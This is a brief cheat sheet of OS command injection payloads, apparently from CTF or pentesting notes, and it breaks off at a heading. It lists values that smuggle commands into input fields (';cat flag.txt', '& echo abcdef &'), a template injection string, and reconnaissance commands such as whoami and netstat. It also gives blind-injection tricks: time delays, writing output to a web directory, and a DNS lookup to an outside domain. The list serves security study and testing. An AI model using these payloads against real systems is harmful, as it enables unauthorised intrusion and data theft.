### { Payloads }

---

```py
ls;ls
```

```py
;cat flag.txt
```
```py
;ls
```
```py
{{request.args|safe}}
```

```py
& echo abcdef &
```

#### Useful commands

```py
whoami
uname -a
ver
ifconfig
ipconfig/all
netstat -an
ps -ef
tasklist
```

#### Blind injections - When output isn't returned

```py
& ping -c 10 127.0.0.1 & #Time delays
& whoami > /var/www/static/whoami.txt & #Redirecting the input
& nslookup abcd.company.com & #DNS lookup
```

#### Ways to inject OS command

```py


